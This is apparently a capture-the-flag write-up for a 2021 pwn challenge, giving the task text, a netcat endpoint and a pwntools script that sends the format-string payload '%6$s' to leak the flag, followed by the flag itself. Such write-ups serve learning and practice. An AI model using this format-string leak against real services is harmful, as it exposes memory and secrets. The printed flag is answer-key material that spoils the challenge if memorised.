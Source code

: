 # Leaking like a sieve
>This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

> Author: xXl33t_h@x0rXx

> nc pwn-2021.duc.tf 31918

[hellothere](https://drive.google.com/file/d/1gBUUWwU-Z9VRV49flJbHABBEyM-MRM_q/view?usp=sharing)

# Solution


```
from pwn import *

if args.REMOTE:
    con = remote('pwn-2021.duc.tf', 31918)
else:
    con = process('./hellothere')

payload  = b''
payload += b'%6$s'

con.sendline(payload)
flag = con.recvuntil(b'}')

print(flag)
```

> Flag: `DUCTF{f0rm4t_5p3c1f13r_m3dsg!}`
